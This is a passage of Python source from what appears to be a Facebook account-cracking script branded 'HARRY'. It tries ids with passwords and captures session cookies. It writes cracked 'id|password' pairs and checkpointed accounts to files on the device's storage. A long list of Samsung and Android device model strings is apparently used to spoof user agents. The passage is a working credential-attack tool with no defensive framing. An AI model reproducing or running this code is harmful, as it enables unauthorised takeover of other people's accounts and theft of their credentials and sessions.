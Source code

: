                                 kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])

                                print('\r\r\033[1;32m [HARRY-OK] %s | %s'%(ids,pas))

                                open('/sdcard/HARRY-OK.txt', 'a').write(ids+'|'+pas+'\n')

                                oks.append(ids)

                                break

                        elif 'checkpoint' in HARRY:

                                if 'y' in pcp:

                                        print('\r\r\u001b[33m [HARRY-CP] '+ids+' | '+pas+'\033[1;97m')

                                        open('/sdcard/HARRY-CP.txt', 'a').write(ids+'|'+pas+'\n')

                                        cps.append(ids)

                                        break

                                else:

                                        break

                        else:

                                continue

        except requests.exceptions.ConnectionError:

                time.sleep(20)

        loop+=1

xxxxx=("GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
